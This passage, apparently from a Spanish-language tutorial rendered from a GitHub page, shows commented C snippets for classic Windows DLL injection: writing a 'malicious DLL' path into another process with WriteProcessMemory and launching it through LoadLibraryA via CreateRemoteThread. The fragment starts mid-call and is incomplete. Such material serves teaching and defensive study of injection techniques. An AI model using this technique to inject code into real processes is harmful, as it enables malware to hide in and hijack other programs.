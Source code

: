 ```
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```
```
WriteProcessMemory(
	hProcess, // Handle for the target process
	dllAllocatedMemory, // Allocated memory region
	dllLibFullPath, // Path to the malicious DLL
	strlen(dllLibFullPath) + 1, // Byte size of the malicious DLL
	NULL
);
```
```

LPVOID loadLibrary = (LPVOID) GetProcAddress(
	GetModuleHandle("kernel32.dll"), // Handle of the module containing the call
	"LoadLibraryA" // API call to import
);
HANDLE remoteThreadHandler = CreateRemoteThread(
	hProcess, // Handle for the target process
	NULL, 
	0, // Default size from the execuatable of the stack
	(LPTHREAD_START_ROUTINE) loadLibrary, pointer to the starting function
	dllAllocatedMemory, // pointer to the allocated memory region
	0, // Runs immediately after creation
	NULL
);
```

# Alternativas para ejecutar memoria



